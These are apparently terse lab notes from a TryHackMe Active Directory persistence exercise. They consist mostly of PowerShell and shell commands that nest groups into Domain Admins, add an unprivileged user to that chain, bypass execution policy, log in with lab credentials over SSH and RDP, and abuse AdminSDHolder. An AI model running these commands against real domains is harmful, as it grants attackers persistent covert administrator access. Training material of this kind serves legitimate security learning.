 ```powershell
Add-ADGroupMember -Identity 'f4u_group5' -Members 'f4u_group4'

# Add Group 5 to Domain Admins
Add-ADGroupMember -Identity 'Domain Admins' -Members 'f4u_group5'

# Add unprivileged user to Group 1
Add-ADGroupMember -Identity 'f4u_group1' -Members 'jason.jackson'
```

```bash
export AD=za.tryhackme.loc
export USERNAME=jason.jackson
export PASSWORD=Racer2018

ssh $AD\\$USERNAME@thmwrk1.$AD
```

```powershell
powershell -ep bypass

Get-ADGroupMember -Identity "Domain Admins"
```

>Group Nesting

>Add-ADGroupMember -Identity thmgroup -Members thmtest

## Task 7

```bash
export AD=za.tryhackme.loc
export USERNAME=jason.jackson
export PASSWORD=Racer2018

xfreerdp /v:thmwrk1.$AD /u:$USERNAME /p:$PASSWORD
```

```powershell
runas /netonly /user:za.tryhackme.loc\Administrator cmd.exe
```

```cmd
mmc
```

Follow the instructions on THM

```cmd
powershell -ep bypass
```

```powershell
Import-Module .\Invoke-ADSDPropagation.ps1

Invoke-ADSDPropagation
```

> AdminSDHolder
